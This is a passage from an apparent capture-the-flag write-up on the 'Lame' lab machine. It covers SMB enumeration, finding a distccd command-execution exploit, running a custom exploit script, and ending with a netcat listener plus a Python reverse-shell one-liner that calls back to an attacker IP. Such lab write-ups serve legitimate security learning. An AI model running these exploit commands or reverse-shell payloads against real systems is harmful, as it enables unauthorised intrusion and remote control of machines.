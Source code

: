 ```sh
	fr--r--r--                0 Sat Apr 30 19:38:51 2022	X0
```

Try to get OS info:

```sh
❯ smbmap -vH 10.10.10.3
[+] 10.10.10.3:445 is running Unix (name:LAME) (domain:LAME)
```

No luck.

Looking deeper at distccd. Web page says it lets you essentially compile code remotely on a bunch of machines (they are your workers). Wondering if there is any exploit for it, re-examining searchsploit:

```sh
❯ searchsploit distcc
----------------------------------------------------- ---------------------------------
 Exploit Title                                       |  Path
----------------------------------------------------- ---------------------------------
DistCC Daemon - Command Execution (Metasploit)       | multiple/remote/9915.rb
```

Looks juicy! Found writeup online matching exact version:

- http://edublog.bitcrack.net/2016/10/pwning-metasploitable-2-exploiting_12.html

Don't want to use the metasploit module, so going to recreate it in a custom python script: [pwndistcc.py](pwn/pwndistcc.py)

Now using it:

```sh
# test code execution
❯ python3 pwndistcc.py id
b'DONE00000001STAT00000000'
b'SERR'
b'00000000'
b'SOUT'
b'0000002d'
stdout: uid=1(daemon) gid=1(daemon) groups=1(daemon)  # <==== BOOM
stdout: DOTO00000000

# tried uploading reverse shell with smbclient, but couldn't execute/chmod
# tried doing bash reverse shell, but that failed.

# trying python reverse shell
❯ python3 pwndistcc.py "which python"
b'DONE00000001STAT00000000'
b'SERR'
b'00000000'
b'SOUT'
b'00000010'
stdout: /usr/bin/python
stdout: DOTO00000000

# start listener
❯ nc -lvnp 9000
# create reverse shell
❯ python3 pwndistcc.py "python -c 'import os,sys,socket,pty;os.fork() and sys.exit();os.setsid();os.fork() and sys.exit();s=socket.socket();s.connect((\"10.10.14.2\",9000));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/bash\")'"
b'DONE00000001STAT00000000'
b'SERR'
b'00000000'
b'SOUT'
b'00000000'
```